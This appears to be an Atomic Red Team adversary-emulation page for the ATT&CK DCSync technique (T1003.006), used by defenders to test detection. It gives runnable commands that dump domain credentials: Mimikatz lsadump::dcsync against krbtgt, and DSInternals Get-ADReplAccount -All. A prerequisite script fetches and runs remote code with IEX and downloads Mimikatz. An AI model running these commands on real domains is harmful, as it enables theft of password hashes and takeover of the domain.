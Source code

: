 # T1003.006 - OS Credential Dumping: DCSync

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/006)

<blockquote>Adversaries may attempt to access credentials and other sensitive information by abusing a Windows Domain Controller's application programming interface (API)(Citation: Microsoft DRSR Dec 2017) (Citation: Microsoft GetNCCChanges) (Citation: Samba DRSUAPI) (Citation: Wine API samlib.dll) to simulate the replication process from a remote domain controller using a technique called DCSync.

Members of the Administrators, Domain Admins, and Enterprise Admin groups or computer accounts on the domain controller are able to run DCSync to pull password data(Citation: ADSecurity Mimikatz DCSync) from Active Directory, which may include current and historical hashes of potentially useful accounts such as KRBTGT and Administrators. The hashes can then in turn be used to create a [Golden Ticket](https://attack.mitre.org/techniques/T1558/001) for use in [Pass the Ticket](https://attack.mitre.org/techniques/T1550/003)(Citation: Harmj0y Mimikatz and DCSync) or change an account's password as noted in [Account Manipulation](https://attack.mitre.org/techniques/T1098).(Citation: InsiderThreat ChangeNTLM July 2017)

DCSync functionality has been included in the "lsadump" module in [Mimikatz](https://attack.mitre.org/software/S0002).(Citation: GitHub Mimikatz lsadump Module) Lsadump also includes NetSync, which performs DCSync over a legacy replication protocol.(Citation: Microsoft NRPC Dec 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DCSync (Active Directory)](#atomic-test-1---dcsync-active-directory)

- [Atomic Test #2 - Run DSInternals Get-ADReplAccount](#atomic-test-2---run-dsinternals-get-adreplaccount)

<br/>

## Atomic Test #1 - DCSync (Active Directory)

Active Directory attack allowing retrieval of account information without accessing memory or retrieving the NTDS database.
Works against a remote Windows Domain Controller using the replication protocol.
Privileges required: domain admin or domain controller account (by default), or any other account with required rights.
[Reference](https://adsecurity.org/?p=1729)

**Supported Platforms:** Windows

**auto_generated_guid:** 129efd28-8497-4c87-a1b0-73b9a870ca3e

#### Inputs:

| Name          | Description                      | Type   | Default Value                               |
| ------------- | -------------------------------- | ------ | ------------------------------------------- |
| domain        | Targeted Active Directory domain | string | %userdnsdomain%                             |
| user          | Targeted user                    | string | krbtgt                                      |
| mimikatz_path | Mimikatz windows executable      | path   | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe |

#### Attack Commands: Run with `command_prompt`!

```cmd
#{mimikatz_path} "lsadump::dcsync /domain:#{domain} /user:#{user}@#{domain}" "exit"
```

#### Dependencies: Run with `powershell`!

##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})

##### Check Prereq Commands:

```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing)
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```

<br/>
<br/>

## Atomic Test #2 - Run DSInternals Get-ADReplAccount

The following Atomic will run Get-ADReplAccount from DSInternals.
Upon successful execution, domain and credentials will appear in stdout.
[Reference](https://www.crowdstrike.com/blog/observations-from-the-stellarparticle-campaign/) CrowdStrike StellarParticle.
https://www.dsinternals.com/en/retrieving-active-directory-passwords-remotely/

**Supported Platforms:** Windows

**auto_generated_guid:** a0bced08-3fc5-4d8b-93b7-e8344739376e

#### Inputs:

| Name        | Description                                 | Type   | Default Value                       |
| ----------- | ------------------------------------------- | ------ | ----------------------------------- |
| logonserver | ComputerName argument default %logonserver% | string | $ENV:logonserver.TrimStart("&#92;") |

#### Attack Commands: Run with `powershell`!

```powershell
Get-ADReplAccount -All -Server #{logonserver}
```

#### Dependencies: Run with `powershell`!

##### Description: DSInternals must be installed

##### Check Prereq Commands:

```powershell
$RequiredModule = Get-Module -Name DSInternals -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['DSInternals']) {exit 1} else {exit 0}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name DSInternals -Scope CurrentUser -Force
```

<br/>
